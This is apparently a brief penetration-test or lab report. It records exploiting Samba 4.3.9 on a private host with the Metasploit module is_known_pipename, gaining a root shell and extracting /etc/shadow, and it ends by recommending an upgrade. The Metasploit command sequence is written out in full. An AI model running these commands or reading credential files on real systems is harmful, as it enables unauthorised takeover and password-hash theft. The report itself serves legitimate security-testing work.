



Exploitation (Port 139 – Samba)

Target: 192.168.197.139

Service: Samba 4.3.9 (SMBv1)

Objective: Gain shell via vulnerable service.

Exploit chosen: exploit/linux/samba/is_known_pipename

Reason: Rank “excellent”.

Metasploit commands:

use exploit/linux/samba/is_known_pipename

set RHOSTS 192.168.197.139

set RPORT 139

run

Exploit output:

Successful. Shell returned as root.

Evidence:

Extracted /etc/shadow

Saved process list (ps aux)

System remained stable

Summary:

Entry vector: netbios-ssn (SMBv1)

Exploit success: Yes

Shell type: Interactive root shell

Impact: Full system compromise

Recommendation: Upgrade Samba 4.3.9

